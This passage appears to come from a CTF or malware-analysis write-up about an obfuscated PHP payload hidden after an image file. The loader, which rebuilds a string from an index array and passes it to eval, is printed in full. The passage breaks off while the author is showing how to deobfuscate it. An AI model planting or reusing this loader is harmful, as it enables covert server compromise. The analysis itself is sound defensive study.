 <?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
/C2/img# 

{% endhighlight %}

It's a kind of obfuscated :), but if we change the 'eval' to "print" or "echo" and execute it we can see what's behind the obfuscated code.

{% highlight php  %}
<?php

$terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");
